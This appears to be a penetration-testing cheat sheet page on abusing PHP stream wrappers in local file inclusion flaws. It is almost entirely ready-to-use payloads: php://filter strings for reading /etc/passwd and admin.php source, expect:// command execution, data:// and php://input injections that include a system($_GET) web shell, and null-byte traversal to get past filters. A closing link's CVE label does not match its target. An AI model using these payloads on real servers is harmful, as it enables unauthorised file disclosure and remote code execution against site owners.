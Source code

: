 Using [`filter`](https://www.php.net/manual/en/filters.php) [wrapper](https://www.php.net/manual/en/wrappers.php.php) to grab local files:

```sh
# filter without any processing to grab plaintext:
php://filter/resource=/path/to/flle
# Example:
curl http://example.com/index.php?page=php://filter/resource=/etc/passwd


# base64 encode file before grabbing (helps grab php source or binary files)
# available starting with PHP 5.0.0
php://filter/convert.base64-encode/resource=/path/to/file
# Example:
curl http://example.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php


# ROT13 encode file:
php://filter/read=string.rot13/resource=/etc/passwd

# chaining multiple filters with "|":
php://filter/string.toupper|string.rot13/resource=/path/to/file

# list of useful filters:
# https://www.php.net/manual/en/filters.php
string.toupper
string.tolower
string.rot13
convert.base64-encode
convert.base64-decode
zlib.deflate  # i.e. gzip, without headers/trailers
zlib.inflate  # i.e. gunzip
bzip2.compress
bzip2.decompress
```

Code execution with `expect`, `data`, and `input` wrappers:

```sh
# run commands directly if 'expect' extension installed (not default):
expect://whoami

# inject arbitrary string into the file if 'allow_url_include' setting is enabled.
# can be used for code execution, XSS, etc.:
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+  # injects "<?php phpinfo();?>"

# When injecting php code, a good way to test code execution is with:
<?php phpinfo();?>

# use "data:" to inject executable php code directly into the URL
data:text/plain,<?php phpinfo(); ?>
data:,<?system($_GET['x']);?>&x=ls
data:;base64,PD9zeXN0ZW0oJF9HRVRbJ3gnXSk7Pz4=&x=ls

# Use 'php://input' as the query param's value to tell it to look at the POST
# request body for the text to insert there. Useful for injecting complex
# php payloads
php://input
# example POST body: <?php system('whoami'); ?>

# FILTER BYPASSES:
# Sometimes you can bypass filters or trick PHP not to concatenate a .php file extension onto
# a file path by injecting a NULL byte. E.g.:
?page=../../../etc/passwd%00
# You can take this technique further and URL-encode the entire php://filter
```

[cve2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744
